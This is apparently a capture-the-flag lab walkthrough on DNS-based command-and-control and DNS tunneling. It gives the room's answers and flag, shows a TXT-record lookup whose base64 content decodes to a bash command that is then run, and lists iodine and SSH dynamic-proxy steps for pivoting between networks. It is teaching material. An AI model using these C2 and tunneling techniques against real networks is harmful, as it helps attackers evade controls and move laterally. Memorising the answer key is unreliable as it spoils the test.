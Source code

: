 Now replicate the C2 Communication steps to execute the content of the flag.tunnel.com TXT record and answer the question below.

What is the maximum length for the subdomain name (label)?
*63*


The Fully Qualified FQDN domain name must not exceed ______ characters.
*255*

Execute the C2 communication over the DNS protocol of the flag.tunnel.com. What is the flag?

```
thm@jump-box:/tmp$ dig +short -t TXT flag.tunnel.com
"YmFzaCAtYyAvdXNyL2xvY2FsL3NiaW4vZmxhZy5zaAo="
thm@jump-box:/tmp$ echo YmFzaCAtYyAvdXNyL2xvY2FsL3NiaW4vZmxhZy5zaAo= | base64 -d
bash -c /usr/local/sbin/flag.sh
thm@jump-box:/tmp$ cd /usr/local/sbin
thm@jump-box:/usr/local/sbin$ ls
flag.sh  icmp-cnc  icmpdoor  unminimize
thm@jump-box:/usr/local/sbin$ ./flag.sh
THM{C-tw0-C0mmun1c4t10ns-0v3r-DN5}

```

*THM{C-tw0-C0mmun1c4t10ns-0v3r-DN5}*

###  DNS Tunneling 

This task will show how to create a tunnel through the DNS protocol. Ensure that you understand the concept discussed in the previous task (Exifltration over DNS), as DNS Tunneling tools work based on the same technique.

DNS Tunneling (TCPoverDNS)

This technique is also known as TCP over DNS, where an attacker encapsulates other protocols, such as HTTP requests, over the DNS protocol using the DNS Data Exfiltration technique. DNS Tunneling establishes a communication channel where data is sent and received continuously.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/8176731af9ec61cf248cdbc65df92172.png)

This section will go through the steps required to establish a communication channel over the DNS. We will apply the technique to the network infrastructure we provided (JumpBox and Victim2) to pivot from Network 2 (192.168.0.0/24) to Network 1 (172.20.0.0/24) and access the internal web server. For more information about the network infrastructure, please check task 2.

We will be using the iodine tool for creating our DNS tunneling communications. Note that we have already installed iodine on the JumpBox and Attacker machines. To establish DNS tunneling, we need to follow the following steps:

    Ensure to update the DNS records and create new NS points to your AttackBox machine (Check Task 8), or you can use the preconfigured nameserver, which points to the Attacker machine (att.tunnel.com=172.20.0.200).
    Run iodined server from AttackBox or the Attacker machine. (note for the server side we use iodined)
    On JumpBox, run the iodine client to establish the connection. (note for the client side we use iodine - without d)
    SSH to the machine on the created network interface to create a proxy over DNS. We will be using the -D argument to create a dynamic port forwarding.
    Once an SSH connection is established, we can use the local IP and the local port as a proxy in Firefox or ProxyChains.
https://github.com/yarrick/iodine
